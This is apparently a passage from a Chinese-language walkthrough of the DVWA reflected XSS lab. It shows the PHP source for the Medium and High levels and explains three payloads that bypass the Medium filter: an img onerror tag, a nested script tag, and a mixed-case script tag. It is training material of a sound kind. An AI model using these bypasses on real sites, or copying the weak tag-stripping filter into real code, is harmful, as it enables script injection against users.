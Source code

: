### Medium

```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    $html .= "<pre>Hello ${name}</pre>";
}

?>
```

只是简单的过滤了`<script>`标签，可以使用其他的标签绕过，这里因为正则匹配的规则问题，检测到敏感字符就将替换为空（即删除），也可以使用嵌套构造和大小写转换来绕过。

使用其他的标签，通过事件来弹窗：

```none
<img src=x onerror=alert('XSS')>
```

双写来绕过：

**payload2**

```none
<s<script>cript>alert('XSS')</script>
```

因为正则匹配没有不区分大小写，所以这里通过大小写转换也是可以成功绕过的：

**payload3**

```javascript
<Script>alert('XSS')</script>
```

### High

```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    $html .= "<pre>Hello ${name}</pre>";
}

?>
```
